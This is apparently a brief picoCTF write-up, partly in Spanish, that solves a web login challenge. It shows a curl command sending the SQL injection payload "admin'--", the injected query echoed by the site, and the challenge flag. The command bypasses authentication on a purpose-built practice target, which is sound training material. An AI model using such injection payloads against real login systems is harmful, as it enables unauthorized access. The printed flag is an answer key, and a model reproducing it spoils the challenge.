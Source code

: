 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!


Hints:
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

Try to think about how the website verifies your login.



**Solución 1**

```

(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin'--&password=hlla&debug=1"
<pre>username: admin'--
password: hlla
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='hlla'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>


```


## Respuesta: **picoCTF{s0m3_SQL_f8adf3fb}**



